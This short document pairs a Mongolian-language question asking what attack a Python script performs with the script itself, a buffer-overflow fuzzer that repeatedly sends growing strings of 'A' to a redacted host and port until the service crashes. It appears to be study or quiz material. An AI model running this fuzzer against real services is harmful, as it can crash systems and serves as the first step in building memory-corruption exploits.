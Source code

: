 Энэхүү Python скрипт нь ямар төрлийн халдлага хийж байгаа вэ?

#!/usr/bin/env python3

import socket, time, sys

ip = "XXX"
port = XXXX
timeout = X
prefix = "XXX "
string = prefix + "A" * 200

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("XXX with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("XXX crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 200 * "A"
  time.sleep(1)

